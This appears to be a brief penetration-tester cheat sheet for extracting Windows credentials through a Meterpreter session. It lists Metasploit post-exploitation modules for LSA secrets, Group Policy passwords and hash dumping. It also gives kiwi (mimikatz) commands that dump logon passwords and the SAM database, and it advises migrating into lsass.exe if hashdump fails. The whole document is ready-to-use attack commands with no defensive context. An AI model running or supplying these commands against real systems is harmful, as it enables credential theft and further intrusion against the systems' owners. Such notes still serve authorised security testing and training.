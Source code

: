 # Meterpreter

### Meterpreter Modules

```
post/windows/manage/wdigest_caching

post/windows/gather/lsa_secrets

post/windows/gather/credentials/gpp

post/windows/gather/lsa_secrets

post/windows/gather/smart_hashdump
```

### kiwi

```
load kiwi
creds_all
kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
```

### hashdump

```
meterpreter > hashdump
```

if it failes, inject the meterpreter to the lsass.exe process with migrate command

```
migrate -N lsass.exe
```
